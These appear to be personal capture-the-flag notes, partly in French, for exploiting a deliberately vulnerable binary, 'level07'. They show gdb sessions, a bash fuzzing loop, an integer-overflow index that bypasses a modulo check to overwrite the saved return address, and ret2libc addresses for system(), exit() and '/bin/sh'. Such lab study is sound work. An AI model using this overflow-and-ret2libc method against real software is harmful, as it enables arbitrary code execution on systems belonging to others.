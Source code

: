 Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07

Ecrire un shellcode dans le tab
Ecraser le retour via l'overflow du tab
Quit pour exec ?


saved eip main : 0xf7e45513 (u_int : 4159916051)
4294967295 - 4159916051 = -135051244

4158964832

saved eip read : 0x8048930 (u_int : 134514224)

#!/bin/bash

for i in {4294967295..4294967500}; do
    sleep 0.01
    echo "read"
    sleep 0.01
    echo "$i"s
    echo "nb $i"
done | ~/level07

b *main+679

b *read_number+69


0xffffd458 = index 1 
(gdb) x/wx 0xffffd458
0xffffd458:     0xfffffffe

(gdb) x/wx 0xffffd458+452
0xffffd61c:     0xf7e45513

4294967295 = unsigned int max 
4158936339 = nb stored at data[114] = saved eip

-4294967182 = 114 aussi mais ne marche pas

0x8048930 = 134514992 = saved eip read_nb
0xffffd42c = 0x08048930

0xffffd408
0xffffd42c

find /w $ebp, +1000, 0x08048930


nput command: read
 Index: 4294967286
 Number at data[4294967286] is 134514992 (== 8048930)

 3735928559


saved eip 0x80488ef
0xffffd42c


b *get_unum+51
saved eip 0x8048656
0xffffd3fc:     0x08048656
92/4 = 23 octets

b *store_number+38
b *store_number+59

eax            0x72     114
ecx            0x72     114
edx            0xaaaaaaab       -1431655765

eax            0x72     114
ecx            0x72     114
edx            0xaaaaaaab       -1431655765

0x08048678 <+72>:    mul    %edx

eax            0x26     38
ecx            0x72     114
edx            0x4c     76

Le résultat est stocké sur 64 bits, réparti entre %eax (partie basse) et %edx (partie haute)

01001100 = 76
00100110 = 38

0x0804867a <+74>:    shr    %edx
edx            0x26     38


0x0804867c <+76>:    mov    %edx,%eax
eax            0x26     38
ecx            0x72     114
edx            0x26     38

 0x0804867e <+78>:    add    %eax,%eax
eax            0x4c     76

0x08048680 <+80>:    add    %edx,%eax
eax            0x72     114

0x08048682 <+82>:    mov    %ecx,%edx
eax            0x72     114
ecx            0x72     114
edx            0x72     114

0x08048684 <+84>:    sub    %eax,%edx
edx            0x0      0

eax            0x1cc    460

edx            0x2a     42

nombre * 0xaaaaaaab >> 33 ≈ nombre / 3

4,294,967,296 / 4 + 114 = 1073741938

0xffffd454 data ? + 4 = data[1] 0xffffd458 = 4294956120


Ret2libc = address of system() + return address for system() + address of "/bin/sh"


0x f7e6aed0 = 4159090384 system 114 1073741938
0x f7e5eb70 = 4159040368 exit   115
0x f7f897ec = 4160264172 bin/sh 116

